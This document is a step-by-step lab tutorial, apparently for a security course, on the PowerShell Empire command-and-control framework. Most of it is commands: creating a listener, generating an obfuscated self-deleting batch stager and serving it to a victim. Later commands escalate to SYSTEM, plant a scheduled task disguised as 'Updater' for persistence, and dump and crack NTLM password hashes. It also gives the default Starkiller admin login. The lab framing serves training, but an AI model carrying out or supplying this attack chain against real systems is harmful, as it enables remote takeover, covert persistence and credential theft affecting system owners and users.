

# PowerShell Empire C2 Framework

PowerShell Empire C2 Framework is a powerful command-and-control (C2) framework used primarily in post-exploitation phases of penetration testing and red team operations. It enables attackers to remotely control compromised systems using PowerShell scripts, offering a stealthy and flexible way to execute commands, gather information, and maintain persistence within a network. The framework supports multiple communication channels, including HTTP, HTTPS, and SMB, allowing attackers to adapt to different environments and avoid detection. Its modular architecture allows users to easily extend its capabilities with custom scripts and modules, making it a popular choice for conducting sophisticated and evasive cyberattacks.

PowerShell Empire should already be installed on Kali. If not, run the command below.

```go
sudo apt install powershell-empire 
```

### Start PowerShell Empire Server

```go
sudo powershell-empire server
```

In a new terminal window, run `sudo powershell-empire client` to connect to the server using the Empire Client.

```go
sudo powershell-empire client

```


### PowerShell Empire Listeners

PowerShell Empire Stagers connect to the Empire server and then generate an Agent, which you can interact with to control compromised systems. To facilitate these connections, you need to create a Listener that the Stagers can connect back to. These Listeners "listen" for incoming connections from Empire Stagers and, upon connection, generate an Agent for interaction.

To set up a Listener in PowerShell Empire, use the command `uselistener` followed by the name of the Listener you wish to use. To view a list of all available Listeners, simply run the `uselistener` command and press the Tab key to cycle through the options.

```go
uselistener

```


Today we will be using http.


This will create a Listener on port 80 of the Empire Server and display all the configuration options being used. You can customize the Listener by modifying these options. For instance, to change the name of the Listener, use `set Name F-SocietyListener`, and to change the listening port, use `set Port 80`. Once you've made your adjustments, save the configuration and start the Listener by running the `execute` command.

```go
set Name F-SocietyListener
```

```go
set Port 80
```

To start the Listener type Execute

```go
execute
```


Use the `back` command to exit the Listener's interface. You can then view all active Listeners on the Empire Server by running the `listeners` command.

```go
back

```

```go
listeners

```


### PowerShell Empire Stagers

With your Listener up and running, the next step is to create a Stager. A Stager is a piece of code designed to execute a payload on the target machine, establishing a connection back to your Listener. This payload includes the necessary functionality to generate an Agent, allowing you to remotely control the compromised system while initiating the Encrypted Key Exchange protocol to secure the C2 communication.

PowerShell Empire includes several different types of *Stagers*:

- Malicious scripts (.bat, .hta, .vbs, etc.)
- Dynamic Link Libraries (DLLs)
- Executables (.exe)
- Shellcode
- Microsoft Office macros
- Cross-platform stagers for Linux and macOS

To create a Stager, use the `usestager` command followed by the name of the Stager you want to generate. To see a list of all available Stagers, simply type `usestager` and press the Tab key to cycle through the options


We will use the windows_launcher_bat stager. This is a self-deleting Stager that uses a batch file to inject shellcode into a running process and then deletes the batch file upon completion, making it an effective option for concealing your activities. Run the command below:

```go
usestager windows_launcher_bat
```


You can customize the configuration of this Stager. To see the available options, run the `options` command, and then use the `set` command followed by the option you wish to modify. For example, to link the Stager to the Listener you created earlier, use `set Listener F-SocietyListener`. To obfuscate the PowerShell launcher code for better evasion of network detection, set `Obfuscate` to `True`. Once you've made your changes, type `execute` to save the settings and generate the Stager.

```go
set Listener F-SocietyListener
```

```go
set Obfuscate True
```

```go
execute
```

Check it by running options again.

```go
options
```


## PowerShell Empire Agents

Your Listener and Stager are now set up. The final step is to execute the Stager on the target system. Once it connects back to the Empire Server, it will generate a new Agent, enabling you to remotely control the target machine.

First, transfer the *Stager* you created to the target machine. PowerShell Empire told you where this *Stager* was written to when you ran the `execute` command, as seen below.


Move the agent to your home directory so that you can stand up a webserver to deliver it to the victim.

```go
sudo mv /var/lib/powershell-empire/empire/client/generated-stagers/launcher.bat /home/m122
```

 Then run ls to ensure it was moved.

```go
ls
```


### Deliver the Agent

Start a webserver on the Kali VM.

```go
python3 -m http.server
```


On the victim VM open a web browser and go to the IP of the Kali VM and port 8000. Download and execute launcher.bat.  NOTE: Once the launcher is executed, it will delete itself. BONUS OPPORTUNITY: You can recreate a previous attack we did in other exercises to deliver the payload. 



On the PowerShell Empire VM you should see a message similar to the one below, stating that a new agent checked in.


Run the command “agents” to see all active agents.

```go
agents
```


As seen above, the agents command shows all available agents and provides some information on the agent and compromised system. To make it easier to keep track of the agent name, you can change it by using the command below.

```go
rename VK4XS6UN Powned-Colby
```


## PowerShell Empire Modules

To execute actions on the target machine, you'll need to use PowerShell Empire’s Modules. Each Module serves a specific purpose, such as collecting browser data, dumping passwords, exploiting local vulnerabilities, establishing persistence, conducting reconnaissance, or moving laterally.

PowerShell Empire offers over 400 modules, crafted in PowerShell, Python, and C#. Let’s explore some of the most popular ones.

### Privilege Escalation

On your victim machine run the launcher again; however, run it as Administrator. Remember, you may have to download it again because it deletes itself after it executes.

On the PowerShell Empire Server you should see a new agent reporting in. As seen below, if you have elevated privileges there is an asterik after the name of the agent.


Now use the `powershell_privesc_getsystem` module by running the command below:

```go
usemodule powershell_privesc_getsystem
```


As seen above it list the required values. We need to set the agent. (Obviously, your agent name will be different). Then execute the module.

```go
set Agent ER1AH75P
```

```go
execute
```

Check to see if it was successful by interacting with the agent.

```go
interact ER1AH75P
```

As seen below, it was successful and we are now running a SYSTEM.


If attackers gain access to a system with SYSTEM-level privileges, they effectively have complete control over the machine. This level of access allows them to execute any command, install or uninstall software, modify or delete any file, change system configurations, and manipulate system processes. They can also bypass most security controls, disable security software, and establish persistent backdoors to maintain access. Additionally, with SYSTEM privileges, attackers can access and manipulate sensitive data, including credentials and encryption keys, and potentially use the compromised system as a launchpad for further attacks within the network.

### Persistence

You can use an elevated PowerShell Empire *Agent* to install a persistence mechanism that lets you maintain control of a target system after reboots or disconnections. To do this, you can use the `powershell_persistence_elevated_schtasks` module.

```go
usemodule powershell_persistence_elevated_schtasks
```


Now set the *Agent* to execute the module through with the command set Agent ER1AH75P and the *Lisenter* you want the persistence mechanism to connect back to with `set Listener MyListener`. This should be a *Listener* you have set up on your PowerShell Empire Server. Finally, run the `execute` command.

```go
set Agent ER1AH75P
```

```go
set Listener F-SocietyListener
```

```go
execute
```

As seen below, the module created a scheduled task on the target machine that runs daily at 09:00 and is named “Updater.”


### Dumping Credentials

An elevated Agent also enables you to perform post-exploitation activities like dumping credentials. These credentials can be used to impersonate other users, access sensitive files, and move laterally within the target environment.

To dump credentials in PowerShell Empire, you can use the module shown below.

```go
usemodule powershell_credentials_invoke_ntlmextract

```


Since the Agent is already set to our agent with the elevated privileges, we can just execute this module.

```go
execute
```

As seen below, the module extracts the NTLM hashes of local user accounts stored in the target system’s registry. You can crack these extracted password hashes to reveal the plain text passwords or use the hashes for a pass the hash attack.


See screenshots below for cracking the password hash belonging to the user m122. The username and password were m122.

Copy the hash for user m122. Create a txt file named hash.txt and paste the hash in the file and close it.

```go
nano hash.txt
```

Run john to crack the hash.

```go
john --format=nt hash.txt
```


## PowerShell Empire C2 Framework Conclusion

PowerShell Empire is an advanced post-exploitation framework designed for performing various activities in Windows environments. It's highly effective as a C2 framework during penetration tests, red team operations, and purple teaming exercises, allowing you to dump credentials, establish persistence, and execute lateral movement. You learned how to use the framework by starting a Listener, creating and executing a Stager, and conducting post-exploitation activities on a target machine using an Agent and PowerShell Empire’s Modules.

### Bonus Material: Starkiller GUI

Starkiller is a web-based graphical user interface (GUI) for PowerShell Empire. Starkiller enhances the usability of PowerShell Empire by providing a user-friendly interface that simplifies interaction with the Empire server, allowing users to manage agents, execute modules, and view outputs more efficiently. It streamlines the process of command execution, tasking, and overall workflow management, making it accessible for both seasoned professionals and those new to using Empire in offensive security operations.

You can access Starkiller by going to port 1337 of the Empire server. If you are on the Empire server you can type “localhost:1337”. The default login credentials are username = empireadmin and password =password123.


 


Expirement with Starkiller on your own.